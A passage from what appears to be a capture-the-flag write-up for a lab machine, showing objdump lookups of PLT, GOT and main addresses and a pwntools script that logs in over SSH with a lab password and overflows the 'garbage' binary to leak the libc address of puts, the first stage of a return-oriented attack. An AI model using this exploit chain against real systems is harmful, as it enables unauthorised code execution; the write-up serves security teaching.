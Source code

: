 I can more easily get these two addresses by running `objdump`:

```

root@kali# objdump -D garbage | grep puts@GLIBC
  401050:       ff 25 d2 2f 00 00       jmpq   *0x2fd2(%rip)        # 404028 <puts@GLIBC_2.2.5>

```

The PLT address is at the start of the line, and the GOT is at the end.

#### Main

I also need the address of main, so that I can start the program over and get a second chance to overflow it without the ASLR resetting. I can `disassemble main` and get it, or get it with `objdump`:

```

root@kali# objdump -D garbage | grep '<main>'
0000000000401619 <main>:

```

Were PIE enabled, this address would change on each run, but as it isn’t, it will be static.

### Run Stage 1

Putting this all together, I’ll use the `pwntools` Python library to create an ssh connection as margo, and then run the overflow. Here’s the script so far:

```

#!/usr/bin/env python

from pwn import *

#context.log_level = "DEBUG"
sshConn = ssh(host='10.10.10.139', user='margo', password='iamgod$08')
garbage = sshConn.process('garbage')

junk     = "A" * 136      # offset from pattern
pop_rdi  = p64(0x40179b)  # rop-tool gadget garbage | grep rdi
puts_plt = p64(0x401050)  # objdump -D garbage | grep puts@GLIBC
puts_got = p64(0x404028)  # objdump -D garbage | grep puts@GLIBC
main     = p64(0x401619)  # objdump -D garbage | grep '<main>' 

stage_1 = junk + pop_rdi + puts_got + puts_plt
garbage.sendline(stage_1)
garbage.recvuntil("access denied.\n")
leaked_puts = u64(garbage.recvline()[:-1].ljust(8, '\x00'))
log.success("Leaked puts address: 0x%x" % leaked_puts)

```

When I run it, I get the leaked address:
